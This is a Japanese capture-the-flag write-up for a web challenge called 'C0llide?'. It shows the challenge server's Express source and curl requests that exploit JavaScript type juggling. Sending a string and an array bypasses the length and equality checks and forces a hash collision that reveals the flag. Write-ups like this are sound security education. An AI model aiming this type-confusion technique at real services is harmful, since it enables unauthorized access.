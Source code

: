 # C0llide?:Web:250pts
Challenge instance ready at 95.216.233.106:30741.  
A target service is asking for two bits of information that have the same "custom hash", but can't be identical. Looks like we're going to have to generate a collision?  

# Solution
アクセスするともろにJavaScriptのソースが見える。  
[site.png](../Quarantine_-_Hidden_information/site/site.png)  
```JavaScript:app.js
const bodyParser = require("body-parser")
const express = require("express")
const fs = require("fs")
const customhash = require("./customhash")

const app = express()
app.use(bodyParser.json())

const port = 3000
const flag = "flag"
const secret_key = "Y0ure_g01nG_t0_h4v3_t0_go_1nto_h4rdc0r3_h4ck1ng_m0d3"

app.get('/', (req, res) => {
    console.log("[-] Source view")
    res.type("text")
    return fs.readFile("index.js", (err,data) => res.send(data.toString().replace(flag, "flag")))
})

app.post('/getflag', (req, res) => {
    console.log("[-] Getflag post")
    if (!req.body) {return res.send("400")}
    let one = req.body.one
    let two = req.body.two
    console.log(req.body)
    if (!one || !two) {
        return res.send("400")
    }
    if ((one.length !== two.length) || (one === two)) {
        return res.send("Strings are either too different or not different enough")
    }
    one = customhash.hash(secret_key + one)
    two = customhash.hash(secret_key + two)
    if (one == two) {
        console.log("[*] Flag get!")
        return res.send(flag)
    } else {
        return res.send(`${one} did not match ${two}!`)
    }
})

app.listen(port, () => console.log(`Listening on port ${port}`))
```
/にGETするとソースが見え、/getflagにPOSTするとcustomhashのコリジョンをチェックするようだ。  
```bash
$ curl -X POST -H "Content-type: application/json" -d "{\"one\":1,\"two\":2}" http://95.216.233.106:30741/getflag
75465de2045788dd0c5816b7f325d7f3 did not match 190bba7b59ef3ad7b06b764a912d837f!
```
hashを見てみるとmd5のようだが、コリジョンができるか怪しい。  
js側をごまかせないかと考える。  
以下の部分に注目する。  
```JavaScript
~~~
    let one = req.body.one
    let two = req.body.two
~~~
    if ((one.length !== two.length) || (one === two)) {
        return res.send("Strings are either too different or not different enough")
    }
    one = customhash.hash(secret_key + one)
    two = customhash.hash(secret_key + two)
~~~
```
ここでは厳密等価演算子を使って、長さが違うものと値が等しいものをブロックしている。  
つまり要求は、長さが同じかつ値が異なるかつハッシュが衝突することである。  
無理に思えるが、letによって配列などを渡せる。  
さらに`secret_key + one`と`secret_key + two`ではどんな値でも文字列結合される。  
ブラウザなどのコンソールで試すと以下のようになる。  
```JavaScript
>> "1".length !== [1].length
<- false
>> "1" === [1]
<- false
>> "Test"+"1"
<- "Test1"
>> "Test"+[1]
<- "Test1"
```
よって以下のようにコリジョンさせられる。  
```bash
$ curl -X POST -H "Content-type: application/json" -d "{\"one\":\"1\",\"two\":[1]}" http://95.216.233.106:30741/getflag
ractf{Y0u_R_ab0uT_2_h4Ck_t1Me__4re_u_sur3?}
```

## ractf{Y0u_R_ab0uT_2_h4Ck_t1Me__4re_u_sur3?}